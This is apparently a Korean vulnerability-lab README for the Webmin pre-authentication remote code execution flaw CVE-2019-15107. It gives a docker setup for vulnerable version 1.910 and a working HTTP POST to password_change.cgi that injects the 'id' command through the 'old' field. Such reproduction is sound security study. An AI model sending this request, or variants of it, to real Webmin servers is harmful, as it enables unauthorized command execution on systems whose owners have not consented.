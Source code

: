 # Webmin 사전 인증 원격 코드 실행(CVE-2019-15107)

### Contributors
* [신은별(@eunbye01)](https://github.com/eunbye01)


### 요약
Webmin은 유닉스 계열 시스템을 위한 웹 기반 시스템 구성 도구로, 암호 리셋 페이지에 취약성이 있으며, 이를 통해 인증되지 않은 사용자가 간단한 POST 요청을 통해 임의의 명령을 실행할 수 있습니다.

참조링크: 
- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/


### 환경 구성
다음 명령을 통해 취약한 Webmin 1.910을 시작합니다.
```
docker compose up -d
```
환경이 시작된 후 Webnim 로그인 페이지는 'https://your-ip:10000'에서 확인하실 수 있습니다.



### 취약성 재현

참조 링크의 payload가 불완전합니다. 코드를 자세히 읽어본 결과, 1.920 이전, 1.920, 제한 없이 본체의 사용자 파라미터가 존재하지 않는 경우에만 명령을 수행할 수 있음을 발견했습니다.

간단히 말해서, 'id' 명령을 실행하기 위해 다음과 같은 POST 요청을 보내는 것입니다.

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)